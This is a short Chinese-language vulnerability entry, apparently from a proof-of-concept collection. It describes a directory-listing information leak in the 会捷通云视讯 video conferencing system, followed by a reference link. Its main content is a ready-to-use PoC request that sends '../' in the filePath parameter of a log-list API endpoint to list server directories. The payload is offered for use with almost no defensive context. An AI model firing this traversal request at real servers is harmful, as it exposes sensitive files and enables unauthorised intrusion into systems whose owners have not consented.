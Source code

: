 # 会捷通云视讯 敏感信息泄漏


会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息。

poc：

```
http://target/him/api/rest/V1.0/system/log/list?filePath=../

```

ref：

http://wiki.peiqi.tech/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E4%B8%AD%E5%88%9B%E8%A7%86%E8%BF%85/%E4%BC%9A%E6%8D%B7%E9%80%9A%E4%BA%91%E8%A7%86%E8%AE%AF%20list%20%E7%9B%AE%E5%BD%95%E6%96%87%E4%BB%B6%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E.html